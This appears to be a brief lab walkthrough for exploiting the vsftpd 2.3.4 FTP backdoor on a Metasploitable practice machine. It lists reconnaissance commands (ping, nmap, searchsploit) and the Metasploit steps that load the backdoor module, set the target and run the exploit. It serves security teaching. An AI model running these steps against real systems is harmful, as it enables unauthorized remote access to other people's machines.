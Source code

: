 ### Exploiting FTP Backdoor


ping <ip_address>
  
nmap -sV <ip_address>
  
searchsploit vsftpd 2.3.4
  
In a new terminal execute,  msfconsole
  
search vsftpd
  
use exploit/unix/ftp/vsftpd_234_backdoor
  
show info
  
show options
  
set RHOSTS <ip_address>
  
exploit
  
Create a directory and observe the same in Metasploitable.
